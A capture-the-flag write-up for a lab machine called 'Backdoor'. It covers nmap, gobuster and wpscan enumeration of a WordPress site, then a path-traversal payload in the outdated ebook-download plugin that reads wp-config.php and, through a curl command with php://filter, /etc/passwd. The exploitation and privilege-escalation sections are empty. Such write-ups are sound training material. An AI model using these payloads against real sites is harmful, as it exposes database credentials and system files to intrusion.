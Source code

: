# Backdoor

## Information Gathering
10.10.11.125
Backdoor

admin

## Enumeration and Scanning
Run nmap scan. I thought that because the box is named "Backdoor" there may be a service on an uncommon port but there isn't.<br>
```bash
# Nmap 7.92 scan initiated Wed Jan  5 15:24:18 2022 as: nmap -p- -sC -sV -oN nmap/backdoor-all.nmap 10.10.11.125
Nmap scan report for 10.10.11.125
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  5 15:24:45 2022 -- 1 IP address (1 host up) scanned in 26.71 seconds

```

This is running a WordPress application, which I'm unfamialar with. I'll be using <a href="https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress">this</a> guide in order to get foothold on this machine.

Running Gobuster for directory busting:<br>
```bash
gobuster dir -u http://10.10.11.125 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,txt -o gob/backdoor.gob

/wp-content           (Status: 301) [Size: 317] [--> http://10.10.11.125/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.11.125/]
/wp-login.php         (Status: 200) [Size: 5674]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.11.125/wp-includes/]
/readme.html          (Status: 200) [Size: 7346]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.11.125/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://10.10.11.125/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 277]
```
Lastly, for enumeration and scanning I ran wpscan. The results can found <a href="">here</a>. I'll put the command for the scan:<br>
```bash
wpscan --url http://backdoor.htb -e ap,at,u --plugins-detection aggressive -f cli-no-color -o backdoor.wpscan
```
In the scan, the main point of interest is the plugins.<br>
```bash
[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

```
This plugin is outdated and an <a href="https://www.exploit-db.com/exploits/39575">Exploit-DB PoC</a>. With a LFI I can leak sensitive information about the WordPress site or the system itself. The obvious file to leak is the wp-config.php which contains the root password to the database. The payload of the LFI looks like:<br>
```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
If you try to examine any files that are not WordPress related you get a strange output. Thus your payload will need to be:<br>
```bash
curl -X GET http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=php://filter/convert.base64-encode/resource=/etc/passwd
```
Which outputs a lot of Base64 encoded data. After decoding you get what you are after.<br>

## Exploitation

## Privilege Escalation